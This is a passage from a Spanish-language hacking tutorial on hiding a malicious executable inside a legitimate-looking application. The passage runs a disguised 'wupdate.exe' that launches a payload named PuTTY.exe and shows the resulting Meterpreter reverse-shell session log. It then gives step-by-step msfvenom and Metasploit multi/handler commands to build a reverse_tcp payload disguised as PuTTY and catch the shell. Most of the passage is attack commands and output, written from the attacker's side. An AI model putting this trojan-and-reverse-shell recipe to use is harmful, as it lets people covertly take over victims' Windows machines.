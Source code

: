 Y si desde la terminal ejecutamos como atacantes el archivo `wupdate.exe` veremos que se ejecuta el `PuTTY.exe` que seria el archivo malicioso que le hayamos metido nosotros.

```shell
wupdate
```

o

```shell
start C:\<PATH>\wupdate.exe
```

Y con esto ya estaria ejecutado de manera oculta el `.exe`, por lo que si nos vamos a donde teniamos la escucha de metasploit, veremos que tenemos una shell.

```
[*] Started reverse TCP handler on 192.168.5.199:7777 
[*] Sending stage (201798 bytes) to 192.168.5.138
[*] Meterpreter session 1 opened (192.168.5.199:7777 -> 192.168.5.138:49185) at 2024-07-28 14:56:45 +0200

meterpreter > getuid
Server username: vuln-smb\diseo
```

Por lo que ya tendriamos acceso al sistema de windows mediante una terminal ocultandolo en una aplicacion legitima.

## <mark style="color:purple;">2ª Forma mas profesional de hacer lo anterior</mark>

Vamos a crear el archivo malicioso oculto dentro de uno legitimo, escogeremos cualquier aplicacion que queramos ocultar el codigo malicioso, una vez teniendo la aplicacion haremos lo siguiente.

Antes de crearlo en nuestra maquina atacante creamos el archivo con `msfvenom`.

```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > PuTTY.exe
```

Configuramos la escucha de metasploit.

```shell
msfconsole -q
```

```shell
use multi/handler
```

Configuramos la escucha.

```shell
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <IP>
set LPORT <PORT>
```

Y ejecutamos la escucha, ahora esto lo dejaremos en segundo plano.
